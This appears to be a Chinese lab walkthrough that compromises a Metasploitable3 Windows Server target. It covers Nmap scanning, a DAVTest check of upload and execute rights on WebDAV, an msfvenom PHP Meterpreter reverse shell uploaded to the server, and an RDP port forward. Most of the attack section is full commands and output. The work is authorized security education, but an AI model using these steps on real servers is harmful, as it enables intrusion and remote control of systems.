




## 实验环境

| 角色 | 系统 | IP |
| --- | --- | --- |
| 攻击机 | Kali Linux | 192.168.227.129 |
| 靶机 | Windows Server 2008 R2（Metasploitable3） | 192.168.227.130 / 192.168.227.132 |

靶机的部署过程见 [Metasploitable3 靶机下载](./Metasploitable3靶机下载.md)。

> 实验过程中切换过网络环境，靶机 IP 从 `192.168.227.130` 变成了 `192.168.227.132`，下文按实际步骤记录。

## 信息收集

在靶机上执行 `ipconfig`，确认当前 IP 为 `192.168.227.130`。攻击机先 ping 一下，确认网络连通：

```bash
ping 192.168.227.130
```

```text
PING 192.168.227.130 (192.168.227.130) 56(84) bytes of data.
64 bytes from 192.168.227.130: icmp_seq=1 ttl=128 time=1.09 ms
64 bytes from 192.168.227.130: icmp_seq=2 ttl=128 time=0.547 ms
64 bytes from 192.168.227.130: icmp_seq=3 ttl=128 time=0.609 ms
```

使用 Nmap 做全端口扫描，并把结果保存为 XML，方便导入 Metasploit：

```bash
nmap -sV -p- --open -n -oX msf3.xml --reason 192.168.227.130
```

参数说明：

- `-sS`：TCP SYN 半开放扫描，不建立完整会话；
- `-sV`：探测端口上运行的服务版本；
- `--open`：只显示开放的端口；
- `--reason`：显示端口状态的判断依据；
- `-n`：不做 DNS 解析；
- `-oX`：输出 XML 格式，便于导入 MSF。



扫描结果显示目标开放了大量服务，包括 FTP、SSH、IIS、SMB、MySQL、GlassFish、Tomcat、Elasticsearch、Jenkins 等，是一个典型的综合靶机。



## 导入 Metasploit

```bash
msfconsole
```

```text
msf6 > workspace -a win08-r2
[*] Added workspace: win08-r2
msf6 > db_import msf3.xml
[*] Importing 'Nmap XML' data
[*] Importing host 192.168.227.130
[*] Successfully imported /home/kali/msf3.xml
msf6 > services
```

`services` 可以看到扫描到的端口与服务信息：

```text
host             port   proto  name                  state  info
----             ----   -----  ----                  -----  ----
192.168.227.130  21     tcp    ftp                   open   Microsoft ftpd
192.168.227.130  22     tcp    ssh                   open   OpenSSH 7.1 protocol 2.0
192.168.227.130  80     tcp    http                  open   Microsoft IIS httpd 7.5
192.168.227.130  445    tcp    microsoft-ds          open   Microsoft Windows Server 2008 R2 - 2012
192.168.227.130  3306   tcp    mysql                 open   MySQL 5.5.20-log
192.168.227.130  4848   tcp    ssl/http              open   Oracle GlassFish 4.0
192.168.227.130  8080   tcp    http                  open   Sun GlassFish Open Source Edition 4.0
192.168.227.130  8585   tcp    http                  open   Apache httpd 2.2.21 (Win64) PHP/5.3.10 DAV/2
192.168.227.130  9200   tcp    http                  open   Elasticsearch REST API 1.1.1
192.168.227.130  49260  tcp    jenkins-listener      open   Jenkins TcpSlaveAgentListener
```

## WebDAV 服务漏洞利用

WebDAV 是基于 Web 服务的扩展，允许用户像操作本地文件一样操作服务器上的文件。为了方便使用，服务器通常会给较大的文件权限，包括上传、修改甚至执行权限。

Kali 提供了 DAVTest 工具，可以自动检测 WebDAV 的上传和执行权限。一旦发现某个后缀可以执行，就可以上传后门控制服务器。

DAVTest 的主要功能：

- 自动发送测试文件，检测可上传、可执行的文件类型；
- 随机生成目录名，隐藏测试文件；
- 支持上传指定文件；
- 测试结束后自动清理上传的文件。

先测试 `8585` 端口的 WebDAV 服务：

```bash
davtest -url http://192.168.227.130:8585/uploads/
```

```text
 Testing DAV connection
OPEN            SUCCEED:        http://192.168.227.130:8585/uploads
 Creating directory
MKCOL           SUCCEED:        Created .../DavTestDir_KEYSyS9yTU
 Sending test files
PUT     php     SUCCEED
PUT     jsp     SUCCEED
 Checking for test file execution
EXEC    php     SUCCEED
EXEC    html    SUCCEED
```

可以看到 `php`、`html` 等文件可以上传并执行，说明该目录存在 WebDAV 上传执行漏洞。

### 生成并上传木马

切换网络后靶机 IP 变为 `192.168.227.132`，后续步骤都使用新 IP。先生成 PHP 反弹木马：

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.227.129 LPORT=6666 -f raw > demon.php
```

使用 DAVTest 上传木马到刚才创建的可执行目录：

```bash
davtest -url http://192.168.227.132:8585/uploads/ -uploadfile demon.php -uploadloc DavTestDir_KEYSyS9yTU/
```

```text
Upload succeeded: http://192.168.227.132:8585/uploads/DavTestDir_KEYSyS9yTU/
```

### 启动监听并上线

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.227.129
msf6 exploit(multi/handler) > set LPORT 6666
msf6 exploit(multi/handler) > run
```

> 这里 `LHOST` 要填攻击机地址。如果误填成靶机地址，会出现 "Handler failed to bind" 的报错；此时因为监听实际落在 `0.0.0.0:6666`，仍然可能收到会话，但正式操作时应填写正确。

在浏览器中访问上传的木马文件，触发反弹。



```text
[*] Meterpreter session 1 opened (192.168.227.129:6666 -> 192.168.227.132:49374)

meterpreter > sysinfo
Computer    : VAGRANT-2008R2
OS          : Windows NT VAGRANT-2008R2 6.1 build 7601
              (Windows Server 2008 R2 Standard Edition Service Pack 1) AMD64
Meterpreter : php/windows
```

### 端口转发连接远程桌面

拿到 Meterpreter 会话后，把靶机的 3389 端口转发到本地的 8888 端口：

```bash
meterpreter > portfwd add -l 8888 -p 3389 -r 192.168.227.132
```

参数说明：

- `portfwd add`：添加一条端口转发规则；
- `-l 8888`：本地监听端口；
- `-p 3389`：远程目标端口，即 RDP 默认端口；
- `-r 192.168.227.132`：远程目标地址。

本机访问 `127.0.0.1:8888`，流量就会转发到靶机的 3389 端口：

```bash
rdesktop 127.0.0.1:8888
```

首次连接会提示证书不受信任，输入 `yes` 继续即可。

```text
Failed to initialize NLA, do you have correct Kerberos TGT initialized ?
Connection established using SSL.
```



## 总结

Metasploitable3 的 WebDAV 目录同时开放了上传和执行权限，这是最容易拿到 shell 的入口。拿到会话后，通过 `portfwd` 把内网 RDP 服务映射到本地，是后渗透阶段常用的横向访问方式。

::: warning 声明
本文仅用于授权的安全测试与教学环境，请勿对未授权目标进行测试。
:::
